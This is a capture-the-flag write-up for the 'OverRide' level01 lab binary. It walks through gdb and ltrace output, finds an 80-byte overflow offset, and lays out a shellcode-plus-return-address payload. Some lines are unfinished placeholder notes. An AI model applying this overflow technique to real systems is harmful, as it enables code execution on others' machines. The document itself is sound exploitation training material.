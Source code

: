 # Level 01

# Level 00

- Once logged in, you will see a binary.

```
[???]$ ssh 164.92.144.154 -p 4242 -l level01
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 164.92.144.154:4242
level01@164.92.144.154's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
level01@OverRide:~$ ls
level01
level01@OverRide:~$
```

let's run the program
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...

level01@OverRide:~$
```

we don't know the admin and how to program works, so let's take a look at the binary

```
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.

gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
[...]
gdb-peda$ info variables
[...]
0x0804a040  a_user_name
```

We see there are functions, and global variable declared.

by decompiling the source, we at least have an idea what the username and password is, `[dat_wil] and [admin]`

but regardless of giving input with 'correct' id and password..

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...

level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
aaaaaaaaaaaaaaaa
nope, incorrect password...

level01@OverRide:~$
```

needs more xxxxxxxxxxxxxx

from using [Buffer overflow pattern generator
](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?), the offset is 80

As the program use fgets() function we should not be able to make a buffer overflow but fgets() take a max string of 100 chars wich is more than the size of our buffer (64). XXXXXXXXXXX

to create a payload, we first need to put username + '\n'.

Then, the offset (80 bytes) consist of shellcode and padding needs to be fedd, then the address needs to be provided.

from using `ltrace`, the address where password is stored can be easily found `=0xffffd69c`

```
level01@OverRide:~$ ltrace ./level01
__libc_start_main(0x80484d0, 1, -10364, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
) = 39
printf("Enter Username: ")                  = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)         = 0x0804a040
puts("verifying username....\n"verifying username....

)            = 24
puts("Enter Password: "Enter Password:
)                    = 17
fgets( <unfinished ...>
--- SIGWINCH (Window changed) ---
--- SIGWINCH (Window changed) ---
aaaaaaaaaaaaaaaaaaaaaaaa
<... fgets resumed> "aaaaaaaaaaaaaaaaaaaaaaaa\n", 100, 0xf7fcfac0) = 0xffffd69c
puts("nope, incorrect password...\n"nope, incorrect password...

)       = 29
+++ exited (status 1) +++
```

so the final payload will be below

```
[input for first]    [         shellcode + padding (within size of offset)           ] + [     address     ]
  dat_wil + '\n'  +    shellcode (28 bytes, or any) + random characters (80-28 = 52)   +  \x9c\xd6\xff\xff
```

